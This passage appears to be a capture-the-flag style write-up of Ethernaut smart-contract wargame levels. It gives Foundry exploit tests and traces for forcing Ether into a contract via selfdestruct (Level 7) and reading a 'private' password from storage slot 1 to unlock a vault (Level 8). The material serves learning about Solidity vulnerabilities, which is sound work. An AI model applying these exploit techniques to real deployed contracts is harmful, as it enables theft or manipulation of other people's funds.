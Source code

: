 ### 🧪 Exploit Test
```solidity 
    function test_attack() public {
    vm.startPrank(attacker);
    forceDestruct = new ForceDestruct();
    forceDestruct.attack{value: 1 ether}(payable(address(force)));
    assertEq(address(force).balance, 1 ether, "Force contract did not receive Ether");
    vm.stopPrank();
    }

```
### 📋 Test Output
``` text
[PASS] test_attack() (gas: 131011)
Traces:
  [131011] level7Test::test_attack()
    ├─ VM::startPrank(attacker)
    ├─ new ForceDestruct
    ├─ ForceDestruct::attack{value: 1 ether}(Force)
    │   └─ [SelfDestruct]
    ├─ assertEq(1 ether, 1 ether)
    └─ VM::stopPrank()

Suite result: ok. 1 passed; 0 failed; finished in 6.73ms
```
---


## Level 8:Valut

### 🔍 Vulnerable Function

```solidity
 bool public locked;//storage slot0
 bytes32 private password;//storage slot1
function unlock(bytes32 _password) public {
    if (password == _password) {
        locked = false;
    }
}

```

**Vulnerability**: Although password is marked as private, all contract storage is publicly accessible. In Solidity, the private keyword only restricts access within the Solidity language, not from the blockchain level. So, the password stored at storage slot 1 can be retrieved using vm.load.


### 🧪 Exploit Test
```solidity 
   function test_attack() public {
    vm.startPrank(attacker);
    // Get the password from storage slot 1
    bytes32 _password = vm.load(address(vault), bytes32(uint256(1)));
    vault.unlock(_password);
    assertFalse(vault.locked());
    vm.stopPrank();
}
```
### 📋 Test Output
``` text
[PASS] test_attack() (gas: 11812)
Traces:
  [16612] VaultTest::test_attack()
```